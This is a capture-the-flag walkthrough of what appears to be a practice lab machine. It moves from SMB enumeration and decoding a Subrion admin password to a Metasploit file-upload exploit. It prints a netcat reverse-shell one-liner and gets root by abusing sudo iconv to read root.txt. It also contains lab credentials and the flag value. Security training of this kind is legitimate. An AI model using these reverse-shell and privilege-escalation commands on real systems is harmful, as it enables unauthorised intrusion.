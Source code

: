 # ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |
| 139 | SMB |
| 445 | SMB |



# RECONNAISSANCE
---

We got `smb` enabled, let's try anonymous login:

![Pasted image 20250411151007.png](../../IMAGES/Pasted%20image%2020250411151007.png)

There we go, we got an interesting share, let's check the contents inside of it:

![Pasted image 20250411151101.png](../../IMAGES/Pasted%20image%2020250411151101.png)

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:


![Pasted image 20250411151659.png](../../IMAGES/Pasted%20image%2020250411151659.png)

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.224.191/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```


If we check the `test` directory, we can see this:

![Pasted image 20250411151834.png](../../IMAGES/Pasted%20image%2020250411151834.png)


In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```


![Pasted image 20250411152301.png](../../IMAGES/Pasted%20image%2020250411152301.png)

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:


![Pasted image 20250411152549.png](../../IMAGES/Pasted%20image%2020250411152549.png)

There's a redirection, if we follow it:

![Pasted image 20250411152610.png](../../IMAGES/Pasted%20image%2020250411152610.png)

It changes the host, seems weird, what if we try changing it back to the real host:

![Pasted image 20250411152727.png](../../IMAGES/Pasted%20image%2020250411152727.png)

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![Pasted image 20250411153009.png](../../IMAGES/Pasted%20image%2020250411153009.png)

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```


If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![Pasted image 20250411153208.png](../../IMAGES/Pasted%20image%2020250411153208.png)


```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.



# EXPLOITATION
---

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```


Let's use CyberChef with the `magic` operation, we can see the following:



![Pasted image 20250411153349.png](../../IMAGES/Pasted%20image%2020250411153349.png)

There we go, we got the real password:

```
admin:Scam2021
```


![Pasted image 20250411153512.png](../../IMAGES/Pasted%20image%2020250411153512.png)

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![Pasted image 20250411153614.png](../../IMAGES/Pasted%20image%2020250411153614.png)

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![Pasted image 20250411154612.png](../../IMAGES/Pasted%20image%2020250411154612.png)

There we go, we got the shell, we can migrate to `netcat` 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


![Pasted image 20250411154740.png](../../IMAGES/Pasted%20image%2020250411154740.png)

There we go, we got our netcat shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250411154905.png](../../IMAGES/Pasted%20image%2020250411154905.png)

If we use linpeas, we can see this:

![Pasted image 20250411155553.png](../../IMAGES/Pasted%20image%2020250411155553.png)

![Pasted image 20250411155606.png](../../IMAGES/Pasted%20image%2020250411155606.png)


```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![Pasted image 20250411155627.png](../../IMAGES/Pasted%20image%2020250411155627.png)

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
 (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![Pasted image 20250411155740.png](../../IMAGES/Pasted%20image%2020250411155740.png)

Nice, let's read `root.txt`:


```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![Pasted image 20250411160756.png](../../IMAGES/Pasted%20image%2020250411160756.png)
```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![Pasted image 20250411160820.png](../../IMAGES/Pasted%20image%2020250411160820.png)

